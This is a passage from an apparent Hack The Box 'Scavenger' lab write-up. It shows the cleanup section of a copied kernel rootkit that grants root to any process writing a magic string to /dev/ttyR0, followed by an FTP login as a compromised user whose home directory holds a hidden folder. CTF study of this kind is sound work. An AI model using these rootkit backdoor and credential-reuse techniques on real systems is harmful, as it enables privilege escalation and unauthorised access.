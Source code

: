      }

    return 0;    
}

static void __exit
root_exit(void) 
{
  // Destroy the device
  device_destroy(rootcharClass, MKDEV(majorNumber, 0));
  class_unregister(rootcharClass);                     
  class_destroy(rootcharClass);                        
  unregister_chrdev(majorNumber, DEVICE_NAME);     
}


module_init(root_init);
module_exit(root_exit);

{% endhighlight %}

The source code was clearly copied from [this site](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485). Basically, any process that would write a magic string to /dev/ttyR0 would get root privileges. However, the default string wouldn;t work, because the attacker probably changed the magic string to something else (I called it magic string because that;s how the author of the code named it; it doesn;t have anything to do with unicorns). 

I knew that I needed to get the .ko file or the modified source code in order to find the modified magic string, however, I had a very hard time doing that, mainly because I used shell.php to try and locate it. As it turned out, the file was hidden inside ib01c01;s files:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# ftp scavenger.htb
Connected to scavenger.htb.
220 (vsFTPd 3.0.3)
Name (scavenger.htb:root): ib01c01
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    4 1001     1004         4096 Feb 01  2019 .
drwxr-xr-x    8 0        0            4096 Dec 07  2018 ..
drwxr-xr-x    2 1001     1004         4096 Feb 02  2019 ...
-rw-------    1 0        0               0 Dec 11  2018 .bash_history
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
226 Directory send OK.
ftp>

{% endhighlight %}
